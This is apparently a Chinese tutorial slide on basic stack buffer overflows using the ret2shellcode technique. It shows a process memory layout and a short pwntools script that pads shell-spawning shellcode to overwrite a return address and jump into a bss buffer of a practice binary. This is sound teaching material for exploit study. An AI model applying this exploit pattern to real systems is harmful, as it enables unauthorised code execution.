

栈溢出基础 | ret2shellcode
For Kernel

shared libraries

Heap
Data
Text
Unused
ret_addr = shellcode_addr
Stack
跳转到buf2执行写入的shellcode
from pwn import *

io = process("./ret2shellcode")
buf2 = 0x0804A080

io.recv()
payload = asm(shellcraft.sh()).ljust(112, b'A') + p32(buf2)
io.sendline(payload)
io.interactive()

Bss
shellcode we input